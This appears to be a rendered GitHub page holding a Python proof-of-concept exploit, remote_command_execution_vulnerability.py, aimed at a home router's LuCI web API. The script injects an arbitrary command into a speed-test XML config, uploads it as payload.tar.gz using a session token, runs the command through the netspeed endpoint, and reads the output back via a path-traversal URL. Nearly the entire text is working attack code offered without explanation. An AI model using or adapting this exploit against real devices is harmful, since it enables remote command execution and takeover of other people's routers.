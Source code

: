 ```
		<item uploadurl="http://www.360doc.com/"/>
		<item uploadurl="http://www.kankan.com/"/>
		<item uploadurl="http://www.speedtest.cn/"/>
	</class>
</root>
```

remote_command_execution_vulnerability.py

```python
import os
import tarfile
import requests

# proxies = {"http":"http://127.0.0.1:8080"}
proxies = {}

## get stok
stok = input("stok: ")

## make config file
command = input("command: ")
speed_test_filename = "speedtest_urls.xml"
with open("template.xml","rt") as f:
	template = f.read()
data = template.format(command=command)
# print(data)
with open("speedtest_urls.xml",'wt') as f:
	f.write(data)

with tarfile.open("payload.tar.gz", "w:gz") as tar:
	# tar.add("cfg_backup.des")
	# tar.add("cfg_backup.mbu")
	tar.add("speedtest_urls.xml")

## upload config file
print("start uploading config file ...")
r1 = requests.post("http://192.168.31.1/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
# print(r1.text)

## exec download speed test, exec command
print("start exec command...")
r2 = requests.get("http://192.168.31.1/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
# print(r2.text)

## read result file
r3 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
if r3.status_code == 200:
	print("success, vul")
	print(r3.text)
```
